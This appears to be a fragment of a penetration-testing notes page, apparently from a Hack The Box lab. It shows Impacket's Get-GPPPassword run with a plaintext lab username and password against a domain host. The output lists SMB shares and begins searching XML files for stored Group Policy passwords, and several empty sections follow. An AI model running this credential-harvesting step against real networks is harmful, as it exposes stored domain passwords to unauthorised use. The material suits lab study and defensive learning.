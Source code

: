 # Get-GPPPassword

### [Get-GPPPassword HTB/amanda:Ashare1972@$ip](#get-gpppassword-htbamandaashare1972ip-1)
[[domain/]username[:password]@]<targetName or address>

### Get-GPPPassword HTB/amanda:Ashare1972@$ip
```
$ Get-GPPPassword HTB/amanda:Ashare1972@$ip
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Listing shares...
  - ADMIN$
  - C$
  - CertEnroll
  - Department Shares
  - IPC$
  - NETLOGON
  - Operations
  - SYSVOL

[*] Searching *.xml files...
```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```

### 
```

```